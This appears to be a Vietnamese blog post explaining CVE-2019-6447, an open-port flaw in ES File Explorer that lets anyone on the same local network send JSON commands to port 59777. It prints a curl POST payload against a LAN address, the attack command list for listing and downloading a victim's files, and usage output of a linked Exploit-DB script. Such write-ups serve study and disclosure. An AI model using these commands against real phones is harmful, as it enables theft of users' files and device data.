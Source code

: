 ```yaml
---
title: CVE-2019-6447
date: 29/06/2021
layout: single
--- 
```

![](/assets/images/10.png)

## Mô Tả 
Lỗ hổng mở cổng của ES File Explorer - CVE-2019-6447

ES File Explorer (Trình quản lý tệp) là một trình quản lý tệp (Hình ảnh, Nhạc, Phim, Tài liệu, ứng dụng) đầy đủ tính năng cho cả việc sử dụng cục bộ và mạng! Với hơn 500 triệu người dùng trên toàn thế giới, ES File Explorer (Trình quản lý tệp) giúp quản lý điện thoại Android và các tệp của bạn một cách hiệu quả và hiệu quả, đồng thời chia sẻ tệp mà không tốn dữ liệu.
 
Mỗi khi người dùng khởi chạy ứng dụng, máy chủ HTTP sẽ được khởi động. Máy chủ này đang mở cục bộ cổng 59777

```shell 
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop

```
Trên cổng này, kẻ tấn công có thể gửi tải trọng JSON đến mục tiêu
```shell
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.108:59777

```
Các lệnh này cho phép kẻ tấn công kết nối trên cùng một mạng cục bộ với nạn nhân, có được nhiều thông tin hấp dẫn (thông tin thiết bị, ứng dụng đã cài đặt, ...) về điện thoại của nạn nhân, lấy từ xa một tệp từ điện thoại của nạn nhân và khởi chạy từ xa ứng dụng trên điện thoại của nạn nhân.

## Các phiên bản bị ảnh hưởng
4.1.9.7.4 trở xuống

## Tính năng công cụ 
+ listFiles: Liệt kê tất cả các Tệp.
+ listPics: Liệt kê tất cả các Ảnh.
+ listVideos: Liệt kê tất cả các video.
+ listAudios: Liệt kê tất cả các âm thanh.
+ listApps: Liệt kê các ứng dụng đã cài đặt.
+ listAppsSystem: Liệt kê các ứng dụng Hệ thống.
+ listAppsPhone: Liệt kê các ứng dụng liên quan đến Giao tiếp.
+ listAppsSdcard: Liệt kê các ứng dụng trên thẻ SDCard.
+ listAppsAll: Liệt kê tất cả Ứng dụng.
+ getFile: Tải xuống tệp.
+ getDeviceInfo: Nhận thông tin thiết bị.

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

Mã khai thác của tác giả Nehal Zaman [CVE-2019-6447](https://www.exploit-db.com/exploits/50070)


```shell
C:\Users\Administrator\Documents\python>python 15.py cmd ip 

Available commands :
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.

```

## Cảm ơn :D
